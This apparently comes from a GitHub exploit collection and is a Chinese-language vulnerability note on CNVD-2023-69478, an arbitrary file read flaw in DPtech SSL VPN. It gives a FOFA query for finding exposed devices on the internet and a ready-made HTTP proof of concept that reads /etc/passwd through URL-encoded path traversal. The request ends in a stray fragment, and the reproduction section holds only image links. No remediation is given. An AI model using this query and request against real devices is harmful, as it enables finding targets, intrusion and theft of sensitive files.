


## 迪普DPTech VPN 任意文件读取 CNVD-2023-69478
杭州迪普科技股份有限公司DPtech SSL VPN存在任意文件读取漏洞，攻击者可利用该漏洞获敏感信息。

## 漏洞影响产品
杭州迪普科技股份有限公司DPtech SSL VPN

## fofa
```
title=="SSL VPN Service" && header="Dptech" || cert="DPtechCa"
```

## poc
```
GET /..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: xxxxxxxxx
Cookie: SSLVPN_lang=1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
se
```
## 漏洞复现



